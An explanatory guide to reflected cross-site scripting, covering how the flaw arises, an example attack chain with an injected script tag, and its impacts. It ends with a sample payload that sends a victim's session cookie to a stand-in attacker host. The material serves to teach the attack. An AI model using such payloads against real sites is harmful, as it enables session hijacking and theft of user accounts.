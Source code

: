 # Comprehensive Guide to Reflected Cross-Site Scripting (XSS)

## Introduction to Reflected XSS

Reflected Cross-Site Scripting (XSS) is a client-side code injection attack where malicious scripts are reflected off a web application to the victim's browser. Unlike stored XSS where the payload persists on the server, reflected XSS is non-persistent - the malicious script comes from the current HTTP request and is immediately executed in the victim's browser .

This vulnerability occurs when:
1. User input is included in server responses without proper validation/sanitization
2. The input contains executable JavaScript that gets interpreted by the browser
3. An attacker tricks a victim into clicking a specially crafted link

Reflected XSS accounts for approximately 75% of all XSS vulnerabilities found in real-world applications . It's also called "first-order XSS" because the attack payload is delivered and executed via a single request-response cycle.

## How Reflected XSS Works

The attack flow typically involves three stages:

1. **Attack Design**: The attacker crafts a malicious URL containing JavaScript payload
2. **Social Engineering**: Victim is tricked into clicking the link (via email, forum post, etc.)
3. **Payload Execution**: Victim's browser processes the malicious script in the application's security context

Example attack chain:
1. Attacker finds vulnerable parameter: `https://example.com/search?query=test`
2. Creates malicious URL: `https://example.com/search?query=<script>alert(1)</script>`
3. Victim clicks the link
4. Server reflects the script in response: `<div>Results for: <script>alert(1)</script></div>`
5. Victim's browser executes the JavaScript 

## Impact of Reflected XSS

Successful exploitation can lead to:

- **Session Hijacking**: Stealing cookies/session tokens to impersonate victims 
- **Account Takeover**: Capturing login credentials via fake forms 
- **Malware Distribution**: Forcing downloads of malicious files 
- **Phishing Attacks**: Modifying page content to deceive users 
- **Keylogging**: Monitoring user keystrokes 
- **UI Redressing**: Creating fake interfaces (clickjacking) 

Example of a dangerous payload:
```javascript
<script>
  var i=new Image;
  i.src="http://attacker.com/steal?cookie="+document.cookie;
</script>
```
This sends the victim's session cookie to the attacker's server .
